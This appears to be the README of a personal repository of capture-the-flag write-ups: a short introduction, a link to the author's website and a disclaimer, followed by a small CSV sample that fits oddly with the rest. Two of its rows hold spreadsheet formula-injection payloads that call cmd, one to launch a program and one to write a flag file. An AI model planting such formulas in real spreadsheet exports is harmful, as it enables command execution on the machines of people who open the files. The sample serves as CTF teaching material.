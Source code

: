 ```yaml
---
title: CTF WriteUps
layout: default
---
```


# CTF writeups

This repository contains write ups for CTFs that I attended.

Check out my other work on my <a href="https://shreethaar.github.io/">website</a>.

## Disclaimer

The solutions that are written in these write ups are just **one** way of solving the challenges, and are by no means the most efficient route.
 
Furthermore, any ideas discussed here are mine and do not necessarily reflect the views of my employer or coworkers. 

Name,Email,Comment
"John Doe","john@example.com","Nice to meet you!"
"Jane Smith","jane@example.com","=cmd|' /C calc'!A0"  # This is a CSV injection payload
"Malicious User","malicious@example.com","=cmd|' /C echo FLAG{csv_injection_success} > C:\tmp\flag.txt'!A0"
